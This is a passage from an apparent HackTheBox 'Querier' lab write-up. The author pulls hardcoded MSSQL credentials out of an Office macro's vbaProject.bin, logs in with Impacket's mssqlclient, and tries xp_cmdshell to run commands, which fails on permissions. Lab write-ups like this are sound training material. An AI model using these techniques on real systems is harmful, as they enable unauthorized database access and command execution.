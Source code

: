 I checked out all the files and eventually found a connection string inside the `vbaProject.bin` binary file:

```
# strings vbaProject.bin
 macro to pull data for client volume reports
n.Conn]
Open
rver=<
SELECT * FROM volume;
word>
 MsgBox "connection successful"
Set rs = conn.Execute("SELECT * @@version;")
Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6
```

So it seems that the username and password for the MSSQL server have been hardcoded into the macro. We can also see this by opening the file in LibreOffice and checking out the macros:

![](/assets/images/htb-writeup-querier/mssql_credentials.png)

- Username: `reporting`
- Password: `PcwTWTHRwryjc$c6`

### Getting RCE through MSSQL

I used the Impacket `mssqlclient.py` to connect to the database:

```
# /usr/share/doc/python-impacket/examples/mssqlclient.py -windows-auth querier/reporting@querier.htb
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL>
```

The first thing I tried was to use `xp_cmdshell` to run commands but the current user doesn't have enough privileges:

```
SQL> xp_cmdshell "whoami";
[-] ERROR(QUERIER): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
SQL> EXEC sp_configure 'show advanced options', 1;
[-] ERROR(QUERIER): Line 105: User does not have permission to perform this action.
SQL> RECONFIGURE;
[-] ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
```
